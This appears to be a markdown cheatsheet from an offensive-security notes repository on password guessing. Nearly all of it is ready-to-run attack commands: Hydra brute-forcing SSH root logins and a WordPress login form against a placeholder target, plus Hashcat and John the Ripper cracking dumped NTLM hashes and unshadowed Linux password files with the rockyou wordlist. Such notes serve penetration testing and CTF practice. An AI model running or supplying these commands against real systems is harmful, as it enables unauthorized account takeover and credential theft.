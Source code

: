 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/exploit_password_guessing.md">Top of Page</a> |
  <a href="/exploit_password_guessing.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheet - Password Guessing
## Table of Contents
* [Online](#online)
  * [Hydra](#hydra) 
* [Offline](#offline)
  * [Hashcat](#hashcat)
  * [John the Ripper](#john-the-ripper)

## Online
### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

## Offline
### Hashcat
```bash
hashcat -m 1000 -a 0 --force --show hashes.dump /usr/share/wordlists/rockyou.txt 
```

### John the Ripper
```bash0 
unshadow demo-passwd demo-shadow > demo-unshadow
john demo-unshadow --wordlist=/usr/share/wordlists/rockyou.txt
```
